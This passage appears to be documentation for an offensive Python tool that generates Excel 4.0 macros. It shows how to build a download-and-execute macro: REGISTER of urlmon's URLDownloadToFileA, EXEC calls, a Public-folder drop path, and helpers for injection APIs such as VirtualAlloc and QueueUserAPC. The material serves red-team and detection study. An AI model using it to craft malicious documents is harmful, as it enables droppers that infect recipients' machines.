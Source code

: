 In above macro we are defining some variables, registering two WinAPI functions and calling them.

Excel4DownloadExecuteGenerator inherits macro object from Excel4Generator that is stored in self.macro property. This property holds a reference to the Excel4Macro object. This class allows creating formulas, variables, cell values, etc. The most important functions for creating a macro are listed below. Each of these functions returns a python object that represents the corresponding Excel 4.0 instruction. These objects could be used as arguments in other. To better understand this look at the following example:

    macro = Excel4Macro("test.csv")

    ## Represents command="calc.exe"
    cmd = macro.variable("command", "calc.exe")

    ## Represents =EXEC(command)
    macro.formula("EXEC", cmd)

For the example above we have created a variable called command which is stored in the cmd python variable. Next, we can pass it as an argument to the macro.formula function.

    Function name	Example call	Excel 4.0 instruction
    Excel4Macro.formula(formula, *args)	Excel4Macro.formula("ALERT", 5)	=ALERT(5)
    Excel4Macro.argument(formula, *args	Excel4Macro.argument("BITXOR", 15, 16)	BITXOR(15,16)
    Excel4Macro.register(dll_name, exported_function, type_text, function_text)	Excel4Macro.register("urlmon", "URLDownloadToFileA", "JJCCJJ", "DOWNLOAD")	=REGISTER("urlmon","URLDownloadToFileA","JJCCJJ","DOWNLOAD","",1,9)
    Excel4Macro.value(value)	Excel4Macro.value("TEST")	TEST
    Excel4Macro.variable(name, value)	Excel4Macro.variable("name", "value")	name="value"

To implement our macro we need to define variable exepath. To do this call the variable function on a macro object. This function returns a reference to a python object (Excel4Variable) that represents the Excel4 variable. As you already know Excel4 variable consists of name and value. So we need to pass the name and value to the variable call.

    ## Represents exepath="C:\Users\Public\test.exe"

    exe_path = self.macro.variable("exepath", "C:\\Users\\Public\\test.exe")

Next, we need to import (register) URLDownloadToFileA function. To do this we need to create a REGISTER formula. Basically, we can achieve it in 2 ways. First, we can use the Excel4Macro.register function, which returns the Excel4RegisterFormula object representing the REGISTER formula

    self.macro.register("urlmon", "URLDownloadToFileA", "JJCCJJ", "DOWNLOAD")

or we can use Excel4Macro.register_url_download_to_file_a function. Excel4Macro provides several functions that facilitate the registration of WinAPI functions.At the moment, the Excel4Macro class facilitates the registration of the following WinAPI functions: 

    CreateThread, WriteProcessMemory, VirtualAlloc, NtTestAlert, RtlCopyMemory, QueueUserAPC and URLDownloadToFileA.
    So in order to register URLDownloadToFileA function we can call Excel4Macro.register_url_download_to_file_a.

    # Represents =REGISTER("urlmon","URLDownloadToFileA","JJCCJJ","DOWNLOAD","",1,9)
